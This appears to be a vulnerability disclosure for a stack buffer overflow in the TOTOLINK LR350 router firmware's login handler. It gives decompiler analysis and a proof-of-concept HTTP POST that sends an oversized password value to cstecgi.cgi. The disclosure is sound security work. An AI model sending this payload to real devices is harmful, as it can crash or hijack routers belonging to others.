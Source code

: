 # TOTOLINK LR350 V9.3.5u.6369_B20220309 Stack Overflow

### Product Information

Product: TOTOLINK LR350 Firmware Version: V9.3.5u.6369_B20220309 Manufacturer's website information：https://www.totolink.net/ 

Firmware download address ：[TOTOLINK](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/231/ids/36.html)

### Analysis

`V7 ` retrieves the value from the ` password ` field input by the user and processes it in the ` urldecode ` function. The processed result is stored in the stack.

![image-20240508121257780](/image-20240508121257780.png)

As shown in the two images below, in the function`urldecode` , the processed (`password`) is written to a buffer  located on the stack. **However, there is no validation to check if the `password` (`a1`) exceeds the length of the buffer (`a2`, `v3`).** Therefore, attackers can hijack the program or cause a DDoS attack by carefully constructing data.

![image-20240508121926199](/image-20240508121926199.png)

![image-20240508121953884](/image-20240508121953884.png)

### POC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.147.140
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 449
Origin: http://192.168.147.140
Connection: close
Referer: http://192.168.147.140/login.html

{"username":"admin","password":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa","verify":"0","flag":"0","topicurl":"loginAuth"}
```

![image-20240508122545258](/image-20240508122545258.png)